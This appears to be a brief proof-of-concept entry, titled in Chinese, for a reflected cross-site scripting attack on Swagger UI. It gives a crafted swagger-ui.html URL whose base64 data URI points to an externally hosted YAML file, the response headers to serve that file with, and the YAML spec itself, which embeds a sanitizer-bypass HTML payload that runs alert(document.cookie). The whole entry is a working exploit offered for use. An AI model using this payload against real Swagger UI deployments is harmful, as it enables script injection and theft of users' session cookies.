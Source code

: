 ### swagger-ui 反射型xss

```txt
/swagger-ui.htmlconfigUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```

* header:

  Access-Control-Allow-Origin: *

  Content-Type: text/yaml; charset=UTF-8

```yaml
swagger: '2.0'
info:
  title: Example yaml.spec
  description: |
    <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><img src='#' onerror='alert(document.cookie)'>">
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts

```

